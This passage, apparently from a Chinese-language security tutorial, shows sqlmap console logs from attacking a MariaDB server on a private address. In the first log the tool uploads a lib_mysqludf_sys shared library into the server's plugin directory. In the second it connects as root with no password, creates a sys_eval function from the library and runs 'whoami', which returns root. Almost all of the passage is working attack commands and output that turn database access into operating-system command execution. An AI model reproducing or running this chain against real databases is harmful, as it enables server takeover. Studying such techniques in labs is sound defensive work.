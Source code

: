 ```
[13:28:36] [INFO] confirming MySQL
[13:28:36] [INFO] resumed: [['1']]...
[13:28:36] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[13:28:36] [INFO] fingerprinting the back-end DBMS operating system
[13:28:36] [INFO] resumed: [['0']]...
[13:28:36] [INFO] the back-end DBMS operating system is Linux
do you want confirmation that the local file '/Users/simon/Downloads/lib_mysqludf_sys_64.so' has been successfully written on the back-end DBMS file system ('/usr/lib/x86_64-linux-gnu/mariadb18/plugin/lib_mysqludf_sys_64.so')? [Y/n]

[13:28:42] [INFO] the local file '/Users/simon/Downloads/lib_mysqludf_sys_64.so' and the remote file '/usr/lib/x86_64-linux-gnu/mariadb18/plugin/lib_mysqludf_sys_64.so' have the same size (8040 B)
[13:28:42] [INFO] connection to MySQL server '172.20.10.9:3306' closed

[*] ending @ 13:28:42 /2020-02-10/
```

创建&执行函数

```
python3 sqlmap.py -d "mysql://root:@172.20.10.9:3306/mysql" --sql-shell
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.2.24#dev}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:32:23 /2020-02-10/

[13:32:23] [INFO] connection to MySQL server '172.20.10.9:3306' established
[13:32:23] [INFO] testing MySQL
[13:32:23] [INFO] resumed: [['1']]...
[13:32:23] [INFO] confirming MySQL
[13:32:23] [INFO] resumed: [['1']]...
[13:32:23] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[13:32:23] [INFO] calling MySQL shell. To quit type 'x' or 'q' and press ENTER
sql-shell> create function sys_eval returns string soname 'lib_mysqludf_sys_64.so'
[13:34:56] [INFO] executing SQL data definition statement: 'create function sys_eval returns string soname 'lib_mysqludf_sys_64.so''
create function sys_eval returns string soname 'lib_mysqludf_sys_64.so': 'NULL'
sql-shell> select sys_eval('whoami');
[13:35:59] [INFO] fetching SQL SELECT statement query output: 'select sys_eval('whoami')'
select sys_eval('whoami') [1]:
[*] root

sql-shell>
```
